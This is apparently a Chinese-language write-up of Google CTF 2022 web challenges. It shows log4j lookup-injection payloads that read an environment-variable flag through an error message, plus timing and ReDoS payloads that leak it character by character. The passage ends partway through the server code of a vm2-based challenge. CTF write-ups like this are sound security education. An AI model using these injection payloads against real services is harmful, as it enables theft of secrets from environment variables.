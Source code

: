 雖然說這個 log4j 用的版本不是之前那個有漏洞的版本，但因為參數是可控的，所以可以來看一下 log4j 自定義的一些 lookup：https://logging.apache.org/log4j/2.x/manual/lookups.html

用 `${env:FLAG}` 就代表環境變數裡的 flag，而 `${java:runtime}` 會印出 Java 相關的資訊，把兩個結合起來變成：`${java:${env:FLAG}}`，就會噴出錯誤以及 flag：

```
2022-07-08 01:31:16,285 main ERROR Resolver failed to lookup java:CTF{d95528534d14dc6eb6aeb81c994ce8bd} 
java.lang.IllegalArgumentException: CTF{d95528534d14dc6eb6aeb81c994ce8bd} at 
org.apache.logging.log4j.core.lookup.JavaLookup.lookup(JavaLookup.java:116) at 
org.apache.logging.log4j.core.lookup.StrLookup.evaluate(StrLookup.java:119) at 
org.apache.logging.log4j.core.lookup.Interpolator.evaluate(Interpolator.java:190) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1183) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1098) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:974) at 
org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:488) at 
.....
```

### LOG4J2 (43 solves)

同第一題，但是錯誤訊息不會噴出來了，可以利用其他方式來 leak 出來。

例如說隊友用的是這個：

1. `%replace{${env:FLAG}%repeat{x}{200000000}}{CTF.*}{y}`
2. `%replace{${env:FLAG}%repeat{x}{200000000}}{CTX.*}{y}`

產生一個很長的字串，然後用 replace 字串取代，根據最後的時間判斷是不是包含某個字元，前者大概 4~5 秒，後者用 7 秒多。

也可以參考 [maple](https://blog.maple3142.net/2022/07/04/google-ctf-2022-writeups/#web) 構造出的 ReDoS：

```
%replace{S${env:FLAG}E}{^SCTF.a((((((((((((((((((((.)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*E$}{}
```

一樣可以從時間差去慢慢把 flag 找出來。

### HORKOS (10 solves)

這次我自己唯一有解出來的就是這題，滿有趣的。

這一題的話是一個類似購物網站的東西，你在前端選好要的東西以後會產生一包 JSON，送到 `/order` 去：

``` js
const script = new VMScript(fs.readFileSync('./shoplib.mjs').toString().replaceAll('export ','') + `
sendOrder(cart, orders)
`);

app.post('/order', recaptcha.middleware.verify, async (req,res)=>{
    req.setTimeout(1000);
    
    if (req.recaptcha.error && process.env.NODE_ENV != "dev") {
        res.writeHead(400, {'Content-Type': 'text/html'});
        return await res.end("invalid captcha");
    }

    if (!req.body.cart) {
        res.writeHead(400, {'Content-Type': 'text/html'});
        return await res.end("bad request")
    }

    // TODO: Group orders by zip code
    let orders = [];
    let cart = req.body.cart;
    let vm = new VM({sandbox: {orders, cart}});

```